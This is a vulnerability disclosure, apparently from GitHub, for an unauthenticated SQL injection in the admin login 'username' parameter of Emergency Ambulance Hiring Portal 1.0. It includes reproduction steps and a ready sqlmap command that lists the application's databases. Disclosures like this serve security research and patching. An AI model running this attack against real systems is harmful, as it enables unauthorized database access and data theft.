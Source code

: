 ## Emergency Ambulance Hiring Portal 

**Bug Description:**

A vulnerability has been found in Emergency Ambulance Hiring Portal 1.0 and classified as critical. It has an SQL injection vulnerability in "/admin/login.php" endpoint. The manipulation of the parameter "username" leads to SQL injection. Remote attackers can leverage this vulnerability to manipulate a web application's SQL query by injecting malicious SQL code. This can lead to unauthorized access to databases, data theft, data manipulation, and other malicious activities.


Steps to Reproduce:

```
# Exploit Title: Unauthenticated SQL Injection in Admin Login Page of Emergency Ambulance Hiring Portal 
# Date: 28-03-2024
# Exploit Author: dhabaleshwardas
# Vendor Homepage: https://phpgurukul.com/
# Software Link: https://phpgurukul.com/emergency-ambulance-hiring-portal-using-php-and-mysql/
# Version: 1.0
# Tested on: firefox/chrome/brave
# CVE:
```

To exploit the vulnerability:

1- First visit the admin login endpoint http://localhost/eahp/admin/login.php .

2- Capture the request after entering random username and password and save it in a file. Then using the below command on SQLmap, we can fetch the databases as "username" parameter is vulnerable to SQL injection.

python sqlmap.py -r request.txt -p username --ignore-code 401 --level 5 --risk 2 --batch --dbs

<img width="763" alt="sqli" src="https://github.com/dhabaleshwar/Open-Source-Vulnerabilities/assets/132373212/f0381070-4f0c-471d-8022-829382d91965">
